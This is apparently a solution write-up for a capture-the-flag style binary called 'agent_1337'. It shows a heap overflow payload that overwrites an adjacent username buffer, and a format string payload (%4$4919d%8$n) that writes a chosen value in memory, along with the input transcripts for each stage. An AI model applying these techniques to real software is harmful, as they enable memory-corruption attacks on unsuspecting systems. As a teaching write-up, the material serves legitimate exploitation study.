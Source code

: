 # agent_1337

agent_1337 research

# Usage

```
$ go run .
stackpointer
```

# TLDR

This sequence of commands lets us go past stage 0:

```
welcome agent 1337, the evil group 0xL0CCEDC0DE has stolen 1337 BILLION dollars, you MUST get it back...
for your first take you must hack into the admin account
0: enter username, 1: enter password, 2: login> 0
enter ur username: room
0: enter username, 1: enter password, 2: login> 1
enter ur password: tour
0: enter username, 1: enter password, 2: login> 2
please try again as an admin!
0: enter username, 1: enter password, 2: login> 0
enter ur username: room
0: enter username, 1: enter password, 2: login> 1
enter ur password: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaroot
0: enter username, 1: enter password, 2: login> 1
enter ur password: IAMROOT1337
0: enter username, 1: enter password, 2: login> 2
stage 1/2 of logging in done...
stage 2/2 of logging in done...
```

Next sequence `%4$4919d%8$n` lets us go past stage 1:

```
good job agent 1337! you must now use ur secret device to change the code to unlock the door! the current code is ABCD and you must change it!
> %4$4919d%8$n
```

And finally, the name is `stackpointer` at stage 2:

```
YOU MADE IT agent 1337 you now have to get the money and escape
wait is someone here?
so mr 1337... you made it into our building... you want this money so bad right?? ok than, say my name and ill give it to you!
what is my name?: stackpointer
you did it... fine i guess you can have the money back
AGENT 1337 YOU DID IT!
```

# Stage 0

After reverse engineering this stage, we find out that the username is `root` and the password is `IAMROOT1337`. However, we cannot easily pass these to the corresponding input options, because username is tested against `root` and the entire login is considered a failure if you input `root` directly. However, what I personally observed is that consecutive `malloc`s are 112 bytes apart (this might vary depending on OS / hardware, so not a robust observation). Hence, we have a password like `aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaroot` (there are 112 letters `a`), because it overflows its own allocated space and writes to login's allocated space, then we just enter `IAMROOT1337` for the password again. Voilà.

**Note #1**: This leaves us with a memory leak! Oh well!

# Stage 1

After reverse engineering this stage, we find out that user's input is passed as a first argument to `printf` which makes it vulnerable to format string attack. We can examine function's stack at this point by passing `%p.%p.%p.%p.%p.%p.%p.%p` as an input:

```
good job agent 1337! you must now use ur secret device to change the code to unlock the door! the current code is ABCD and you must change it!
> %p.%p.%p.%p.%p.%p.%p.%p

0x1.0x1.0x7a8211514887.0x7a821161ca70.0x7ffca80f23ac.0x62aa334298a6.0xa0062aa3342bd68.0x62aa70007ba0
```

`0x62aa70007ba0` is the address we are looking for (8th argument). This is the address of the code (initially `ABCD`) we need to change. Going back to `printf` we can forge a string `%4$4919d%8$n` to write `0x1337` (or `4919` in decimal) to this address. `%4$4919d` part of this code takes forth argument `%4` of printf and prints is as a number with a `d` formatter and a width of `4919`, then we use `n` formatter to write the amount of currently printed bytes to `%8` - eighth argument of `printf`.

# Stage 2

This stage is all about reverse engineering, but the end result is in the `solution.go` file of this directory. The name is `stackpointer`.